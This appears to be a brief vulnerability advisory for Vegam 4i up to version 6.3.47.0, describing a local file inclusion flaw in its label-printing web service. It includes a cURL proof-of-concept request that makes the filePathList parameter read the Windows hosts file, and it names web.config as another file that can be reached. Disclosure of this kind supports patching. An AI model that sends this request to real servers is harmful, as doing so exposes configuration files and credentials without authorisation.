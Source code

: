 ## Vegam 4i 

### Version affected <=6.3.47.0
___
<br>
The print label function in Vegam 4i is vulnerable to a Local file Inclusion vulnerability via the filePathList parameter, allowing an malicious user to include files on web server such as web.config, etc/host leading to sensitive information disclosure.
<br>
cURL command:

```curl
curl -i -s -k -X $'POST' -H $'Cookie:' -H $'CSRF-Token:' --data-binary $'\0xd\0xa{\"filePathList\":[\"C:/Windows/System32/Drivers/etc/hosts\"],\"iterationCount\":4,"\labelNumberList":[]\0xd\0xa} $'https://your_instance/iPAS/WebServices/ipas_LabelPrintService.asmx/GenerateLabelPDFZip'
```

